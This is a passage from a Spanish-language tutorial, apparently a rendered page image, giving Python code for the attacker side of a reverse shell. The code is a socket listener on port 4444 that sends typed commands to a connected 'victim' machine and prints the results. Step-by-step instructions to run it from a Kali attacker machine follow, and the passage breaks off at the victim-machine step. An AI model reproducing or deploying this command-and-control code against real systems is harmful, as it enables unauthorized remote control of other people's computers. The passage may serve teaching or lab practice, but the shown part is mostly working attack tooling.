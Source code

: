 
#### 🔊 Servidor (Atacante) - Escucha y controla

```python
# listener_server.py
import socket

def servidor():
    host = '0.0.0.0'  # Escuchar en todas las interfaces
    port = 4444

    s = socket.socket()
    s.bind((host, port))
    s.listen(1)
    print(f"[+] Escuchando en el puerto {port}...")

    cliente, direccion = s.accept()
    print(f"[+] Conexión desde {direccion}")

    while True:
        comando = input("Shell> ")
        if comando.strip() == '':
            continue
        cliente.send(comando.encode())
        if comando.lower() == 'exit':
            break
        resultado = cliente.recv(4096).decode()
        print(resultado)

    cliente.close()
    s.close()

if __name__ == '__main__':
    servidor()
```

---

### 📦 ¿Cómo instalar y correr?

#### Paso 1: Prepara las máquinas

1. **Máquina Atacante (Kali o cualquier Linux):**

   - IP: `192.168.1.10` (ajústalo según tu red)
   - Guarda `listener_server.py`
   - Ejecuta:

     ```bash
     python3 listener_server.py
     ```

2. **Máquina Víctima (Ubuntu o Windows):**
